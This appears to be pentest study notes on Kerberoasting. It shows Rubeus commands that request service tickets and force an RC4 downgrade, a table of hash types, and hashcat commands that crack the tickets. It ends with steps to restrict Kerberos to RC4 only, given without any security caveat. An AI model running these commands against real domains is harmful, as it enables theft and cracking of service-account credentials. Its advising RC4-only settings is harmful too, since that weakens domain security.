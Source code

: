 #### Rubeus method 

```powershell
# Using the /stats Flag (get SPNs count , encryption types and latest change date)
.\Rubeus.exe kerberoast /stats

# get all spns and hashes
Rubeus.exe kerberoast

# get ticket (we can see the supported Encryption type also)
.\Rubeus.exe kerberoast /user:testspn /nowrap

# Using the /nowrap Flag ( nowrap flag prevents any base64 ticket blobs from being column wrapped for any function)
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Encryption Types
- check the [chart](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) to see every decmial value and the corresponding encryption type
- check hashcat [hashs' id](https://hashcat.net/wiki/doku.php?id=example_hashes)
```powershell
# check encryption type
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

# get ticket (we can see the supported Encryption type also)
.\Rubeus.exe kerberoast /user:testspn /nowrap

# downgrade to RC4 ( /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket )
.\Rubeus.exe kerberoast /user:testspn /nowrap /tgtdeleg
```
| Hash Prefix       | Encryption Type | Etype Number | Hashcat ID |
|-------------------|-----------------|--------------|------------|
| $krb5tgs$23$      | RC4-HMAC        | 23           | 13100      |
| $krb5tgs$17$      | AES-128         | 17           | 19600      |
| $krb5tgs$18$      | AES-256         | 18           | 19700      |


```powershell 
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt

hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

- `RC4` is the fastest to crack
- downgrading do not work after windows server 2019 and above
- Windows Server 2019 Domain Controller will always return a service ticket encrypted with the highest level of encryption supported by the target account. 
- Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets
- edit encryption types used by Kerberos
```
It is possible to edit the encryption types used by Kerberos.
This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options,
then double-clicking on Network security: Configure encryption types allowed for Kerberos and selecting the desired encryption type allowed for Kerberos.
Removing all other encryption types except for RC4_HMAC_MD5
```
